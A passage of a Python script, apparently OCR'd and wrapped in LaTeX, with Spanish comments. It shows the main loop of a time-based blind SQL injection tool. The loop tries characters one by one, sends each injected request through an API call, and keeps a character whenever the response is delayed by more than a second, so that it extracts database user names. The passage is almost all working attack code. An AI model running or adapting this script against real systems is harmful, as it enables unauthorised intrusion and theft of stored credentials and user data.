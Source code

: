 \documentclass[a4paper,12pt]{article}
\begin{document}
\begin{lstlisting}[language=Python]
            # Añadir ',' al principio de la lista
            conjunto_car.insert(0, ",")
            conjunto_car.insert(0, ":")
            for i in range(total_steps + 1):
    
                for letra in conjunto_car:
                    tiempo_inicial = time.time()
    
                    nueva_inyeccion = dic.transformar_inyeccion(inyeccion, palabra + letra, len(palabra) + 1)
                    llamada_api(nueva_inyeccion)
    
                    tiempo_final = time.time()
                    tiempo_total = tiempo_final - tiempo_inicial
    
                    spinner.text = f"Extrayendo usuarios de la BD: {palabra + letra}"
                    if tiempo_total > 1:
                        palabra += letra
                        break
                    if letra == conjunto_car[-1]:
                        spinner.color = "green"
                        spinner.text = "Completado"
                        spinner.ok("\char\"2714")
                        print(f"\nRESULTADO: {palabra}")
                        exit(0)
    
                # Actualizar el texto del spinner
                spinner.text = f"Extrayendo usuarios de la BD: {palabra + letra}"
    
            # Cambiar el mensaje al finalizar
            spinner.text = "Completado"
            spinner.ok("\char\"2714")
    
    
    if __name__ == "__main__":
        main()
    
\end{lstlisting}
\end{document}
